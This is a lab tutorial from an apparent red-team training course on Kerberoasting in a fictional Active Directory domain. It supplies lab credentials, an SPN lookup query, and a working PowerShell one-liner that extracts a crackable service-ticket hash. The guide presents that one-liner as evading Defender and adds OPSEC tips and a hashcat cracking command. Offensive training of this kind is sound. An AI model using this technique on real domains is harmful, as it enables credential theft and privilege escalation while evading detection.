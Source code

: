 # Advanced Kerberoasting


## Roast like a Ghost

The point of kerberoasting is to get credentials for accounts with higher privledges. Service accounts or accounts with SPNs (Call them SPINS if you want to be cool.) often have higher credentials. MSSQL databases actually automatically create them for the service account running the MSSQL service.  But they can often be assigned to accounts for number of services including files services.

As you can imagine, even lowly Domain Users need to interact with file services, and can request tickets associated with these SPN accounts. Previously you did this were Rubeus, now we are going to turn on defender, watch it delete that tool immediately because it is super burned, and then craft our own Ticket Requests to get the Kerb Hash back from the svc-file account.

> **OPSEC NOTES**:
> - You still need the domain user context, so proxying would require passing creds but is doable.
> - Don't dump the results to a file, non custom tools like you just use do that by default, but this is quickly evades
> - This does require network authentication, so there is a double hope issue with doing it remotely without passing creds
> - If this is done in custom runspace, very difficult to detect


1. Login from LIGHTEATER to TWORIVERS using RDP and the following user level credentials:  
wheel\felixb:P@ssW0rD!

2. Now that you have the SAM account names, perform a subsquent query to obtain the SPN names. These will be used to perform targeted kerberoasting attacks by obtaining the kerberos pre-authentication ticket hash from the DC.


```
$name="svc-file"
[string[]]$spns=([adsisearcher]"(&(objectCategory=user)(samaccountname=$name))").findall()|%{$_.properties["serviceprincipalname"]};$spns
```

3. Armed with the list of the user SAM accounts and SPN names, we will perform the attack using the command below. Note that you will need to change the SPN and SAM account for each user (e.g., "`HOST/shadarlogoth.wheel.co`", "`svc-file`"). Copy the SPN hashes to crack offline.

> Requesting a TGS-REP ticket for the user with the SPN. All domain users can request any service.

```
$_spn={param($spn,$sam);$_=[reflection.assembly]::loadwithpartialname("system.identitymodel");$tgt=[identitymodel.tokens.kerberosrequestorsecuritytoken]::new($spn);$tb=$tgt.getrequest();if($tb){$th=[bitconverter]::tostring($tb)-replace"-";[collections.arraylist]$pt=($th-replace"^(.*?)04820...(.*)","`$2")-split"a48201";$pt.removeat($pt.count-1);$hs=$pt-join"a48201";$hs=$hs.insert(32,"`$");"`n`$krb5tgs`$23`$*"+$sam+"/"+$spn+"*`$"+$hs;}}; $_spn.invoke("HOST/shadarlogoth.wheel.co", "svc-file");
```
Returns the RC4 HASH

![SPN Burn](./Kerb-burn-2.png)

> You don't have this written to file, but you can just copy it from the terminal, and into a notepad file on your LIGHTEATER desktop. However, this is the same has that you already cracked previously.

1. If you wanted to use **hashcat** in your own environment, your command would look like this. Of course the password has to be in the list.
   ```sh
   hashcat -m 13100 -a 0 -w 4 --force --opencl-device-types 1,2 -O ./kerb.hash ./rawk_you.txt
   ```
   Keep a text file with the decrypted passwords for each domain admin.

13100 is the type used for this kind of ticket.

> You can view modes using: `hashcat -h | grep -i kerberos`




